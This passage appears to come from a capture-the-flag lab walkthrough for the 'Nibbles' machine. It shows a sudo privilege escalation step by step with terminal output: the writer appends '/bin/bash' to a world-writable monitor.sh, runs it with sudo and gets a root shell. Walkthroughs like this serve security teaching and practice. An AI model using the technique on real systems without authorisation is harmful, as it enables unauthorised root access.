 <br />
Unzip the personal.zip archive.

{% raw %}
```sh
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```
{% endraw %}

<br />
Check the permissions of monitor.sh.  Turn out we can modify the file.  Most excellent.

{% raw %}
```sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la
ls -la
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```
{% endraw %}

<br />
Echo /bin/bash into the monitor.sh file.

{% raw %}
```sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '/bin/bash' >> monitor.sh
echo '/bin/bash' >> monitor.sh
```
{% endraw %}

<br />
Run the monitor.sh file with the sudo.

{% raw %}
```sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
<er/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh             
'unknown': I need something more specific.
/home/nibbler/personal/stuff/monitor.sh: 26: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 36: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 43: /home/nibbler/personal/stuff/monitor.sh: [[: not found
root@Nibbles:/home/nibbler/personal/stuff#
```
{% endraw %}

<br />
Run the whoami to confirm root.

{% raw %}
```sh
root@Nibbles:/home/nibbler/personal/stuff# whoami
whoami
root
```
{% endraw %}
